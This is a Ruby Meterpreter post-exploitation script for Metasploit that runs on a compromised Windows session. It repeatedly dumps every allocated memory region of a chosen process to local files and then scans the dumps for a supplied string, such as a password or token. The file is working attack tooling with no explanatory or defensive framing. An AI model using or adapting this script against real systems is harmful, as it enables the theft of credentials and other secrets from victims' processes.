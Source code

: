 require 'fileutils'


if client.platform !~ /win32|win64/
	print_line "No compatible"
	raise Rex::Script::Completed
end

pid = nil
toggle = nil
exp = nil
interval = 10
match = true

def dump_mem(pid, toggle, filename, logs)
  host,port = @client.session_host, session.session_port
  #Dump file name
  dumpfile = logs + ::File::Separator + filename + ".dmp"
  print_status("\tDumping Memory...")
  begin
    dump_process = @client.sys.process.open(pid.to_i, PROCESS_READ)
  rescue
    print_error("Could not open process for reading memory!")
    #raise Rex::Script::Completed
  end
  # MaximumApplicationAddress for 32bit or close enough
  maximumapplicationaddress = 2147418111
  base_size = 0
  while base_size < maximumapplicationaddress
    mbi = dump_process.memory.query(base_size)
    # Check if Allocated
    if mbi["Available"].to_s == "false"
      file_local_write(dumpfile,mbi.inspect) if toggle
      file_local_write(dumpfile,dump_process.memory.read(mbi["BaseAddress"],mbi["RegionSize"]))
      print_status("\tbase size = #{base_size/1024}")
    end
    base_size += mbi["RegionSize"]
  end
  print_status("Saving Dumped Memory to #{dumpfile}")

end

opts = Rex::Parser::Arguments.new(
	"-h" => [false, "Help menu"],
	"-p" => [true, "Process ID"],
	"-e" => [true, "Expression"],
	"-i" => [true, "Interval between dumps"],
	"-m" => [false, "Finish?"]
)

opts.parse(args) { |opt, idx, val|
	case opt
	when "-h"
		print_line "Help Menu"
		print_line(opts.usage)
		raise Rex::Script::Completed
	when "-p"
		pid = val
	when "-e"
		exp = val
	when "-i"
		interval = val
	when "-m"
		match = val
	end
}

#main
salir  = false
filename = "1"
# Create a directory for the logs
logs = ::File.join(Msf::Config.log_directory, 'scripts', 'process_monitor')
# Create the log directory
::FileUtils.mkdir_p(logs)

while !salir
	begin
		dump_mem(pid, toggle, filename, logs)
	rescue
	
	end
	#things...
	dumped = logs + ::File::Separator + filename + ".dmp"
	File.open(dumped,'r') do |b1|
		while linea = b1.gets
			if linea.include?(exp)
				print_good("yeah")
				puts linea
				salir = true
			end
		end
	end
	print_status("Waiting...")
        print_status("i: #{interval}")
	sleep(interval.to_i)
	filename = (filename.to_i + 1).to_s	
end
